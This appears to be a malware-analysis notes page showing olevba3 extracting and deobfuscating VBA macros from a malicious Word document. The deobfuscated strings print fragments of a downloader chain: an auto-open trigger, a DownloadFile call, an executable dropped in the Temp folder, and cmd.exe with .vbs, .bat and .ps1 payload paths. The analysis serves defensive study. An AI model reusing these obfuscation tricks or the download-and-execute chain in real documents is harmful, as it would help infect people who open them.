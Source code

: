 ```
    +----------+--------------------+---------------------------------------------+
```

### Extract VBA
```
nux@siftworkstation: ~/Work
$ olevba3 -c baddoc.doc > out.vba
```

### Deobfuscate strings
```
remnux@siftworkstation: ~/Work
$ olevba3 --deobf baddoc.doc 
olevba 0.56.1 on Python 3.8.10 - http://decalage.info/python/oletools
===============================================================================
FILE: baddoc.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: baddoc.doc - OLE stream: 'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub Auto_Open()
    h
End Sub
<--snip-->
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|AutoExec  |Workbook_Open       |Runs when the Excel Workbook is opened       |
|Suspicious|Environ             |May read system environment variables        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Write               |May write to a file (if combined with Open)  |
|Suspicious|Output              |May write to a file (if combined with Open)  |
|Suspicious|Print #             |May write to a file (if combined with Open)  |
|Suspicious|Kill                |May delete a file                            |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
<---snip--->
|VBA string|$down.DownloadFile($|"$d" + "o" & Chr(Asc("w")) + "n" & "." &     |
|          |url,$file);         |Chr(68) & "ow" & "nloa" & "dFi" & "le($u" &  |
|          |                    |"rl,$" & "file);"                            |
|VBA string|\AppData\Local\Temp\|"\AppData\Local\Temp\" + "444.e" &           |
|          |444.exe';           |Chr(Asc("x")) + "e" & "';"                   |
|VBA string|'+'.'+'v'+'bs';     |Chr(39) + Chr(43) + Chr(39) + "." + Chr(39) +|
|          |                    |Chr(43) + Chr(39) + "v" + Chr(39) + Chr(43) +|
|          |                    |Chr(39) + "bs" + Chr(39) + ";"               |
|VBA string|$batFilePath =      |"$b" + "a" + "tFilePath = 'c:\Users\"        |
|          |'c:\Users\          |                                             |
|VBA string|'+'.'+'b'+'at';     |Chr(39) + Chr(43) + Chr(39) + "." + Chr(39) +|
|          |                    |Chr(43) + Chr(39) + "b" + Chr(39) + Chr(43) +|
|          |                    |Chr(39) + "at" + Chr(39) + ";"               |
|VBA string|$psFilePath =       |"$p" + "sFilePath = 'c:\Users\"              |
|          |'c:\Users\          |                                             |
|VBA string|'+'.'+'p'+'s1';     |Chr(39) + Chr(43) + Chr(39) + "." + Chr(39) +|
|          |                    |Chr(43) + Chr(39) + "p" + Chr(39) + Chr(43) +|
|          |                    |Chr(39) + "s1" + Chr(39) + ";"               |
|VBA string|cmd.exe /c          |"c" & Chr(109) & "d.e" & Chr(120) & "e /c    |
|          |'c:\Users\          |'c:\Users\"                                  |
|          |ect("""&S"          |& "re" & "at" & "eO" & "b" & "je" & "ct(" &  |
|          |                    |Chr(34) & Chr(34) & Chr(34) & "&" & "S" &    |
|          |                    |Chr(34)                                      |
```